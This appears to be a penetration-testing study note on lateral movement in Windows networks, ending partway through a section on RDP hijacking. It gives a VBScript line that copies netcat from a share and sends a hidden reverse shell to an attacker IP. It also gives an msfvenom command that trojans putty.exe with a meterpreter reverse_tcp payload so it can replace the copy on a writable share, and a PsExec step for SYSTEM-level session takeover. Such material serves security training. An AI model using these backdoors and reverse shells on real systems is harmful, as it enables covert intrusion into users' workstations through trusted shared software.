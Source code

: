 It is quite common to find network shares that legitimate users use to perform day-to-day tasks when checking corporate environments. If those shares are writable for some reason, an attacker can plant specific files to force users into executing any arbitrary payload and gain access to their machines.

One common scenario consists of *finding a shortcut to a script or executable file hosted on a network share.*
![](Pasted%20image%2020241118170136.png)

The rationale behind this is that the *administrator can maintain an executable on a network share, and users can execute it without copying or installing the application* to each user's machine. If we, as attackers, have write permissions over such scripts or executables, we can backdoor them to force users to execute any payload we want.

Although the script or executable is hosted on a server, when a user opens the shortcut on his workstation, the executable will be copied from the server to its `%temp%` folder and executed on the workstation. Therefore any payload will run in the context of the final user's workstation (and logged-in user account).

## Backdooring .vbs Scripts
As an example, if the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code in the shared script. This will copy nc64.exe from the share to the user's workstation `%tmp%` directory and send a reverse shell back to the attacker whenever a user opens the shared VBS script.

```shell-session
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe {attacker_ip} {1234}", 0, True
```

1. `CreateObject("WScript.Shell")`
	- This is a **VBScript** command that creates an instance of the **WScript.Shell** object.
	- The `WScript.Shell` object allows the execution of system commands and provides access to system-level functions.

2. `.Run "cmd.exe /c ...", 0, True`
	- The `.Run` method executes the command specified in quotes.
	- **`cmd.exe /c`** runs the command specified after it and then terminates the shell.
	- The arguments here:
	    - `"cmd.exe /c ..."`: The command to run.
	    - `0`: Hides the window (runs the process in the background).
	    - `True`: The script waits for the command to finish before continuing.

3. `"copy /Y \\10.10.28.6\myshare\nc64.exe %tmp%"`
	- This part uses the `copy` command to copy a file from a network share to the local system.
	- **`\\10.10.28.6\myshare\nc64.exe`**:
	    - This is the path to the **Netcat executable** (`nc64.exe`), hosted on a network share (`myshare`) on the machine with IP `10.10.28.6`.
	- **`%tmp%`**:
	    - This is an environment variable in Windows pointing to the user's temporary directory (e.g., `C:\Users\<User>\AppData\Local\Temp`).
	- **`/Y`**:
	    - This switch forces the copy operation to overwrite the file if it already exists, without prompting the user.

 4. `& %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234`
	- The `&` symbol is used to chain commands in Windows Command Prompt.
	- **`%tmp%\nc64.exe`**:
	    - This runs the copied Netcat executable from the temporary folder.
	- **`-e cmd.exe`**:
	    - The `-e` switch in Netcat specifies a program to execute after establishing a connection. Here, it's launching `cmd.exe`, effectively creating a shell session.
	- **`<attacker_ip> 1234`**:
	    - This specifies the target IP address (`<attacker_ip>`) and port (`1234`) to which Netcat will connect. The attacker’s IP address should replace `<attacker_ip>`.

## Backdooring .exe Files
If the shared file is a Windows binary, say putty.exe, you can download it from the share and use msfvenom to inject a backdoor into it. The binary will still work as usual but execute an additional payload silently. To create a backdoored putty.exe, we can use the following command:
```shell-session
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Once the file has been generated, we can *replace the executable on the windows share and wait for any connections using the exploit/multi/handler module from Metasploit*.

## RDP hijacking
When an administrator uses *Remote Desktop to connect to a machine and closes the RDP client instead of logging off, his session will remain open on the server indefinitely*. If you have SYSTEM privileges on Windows Server 2016 and earlier, you can take over any existing RDP session without requiring a password.

If we have administrator-level access, we can get SYSTEM by any method of our preference. For now, we will be using psexec to do so. First, let's *run a cmd.exe as administrator*:
	![](Pasted%20image%2020241118173354.png)
From there, run `PsExec64.exe`(available at `C:\tools\`):
```shell-session
PsExec64.exe -s cmd.exe
```

To list the existing sessions on a server, you can use the following command:
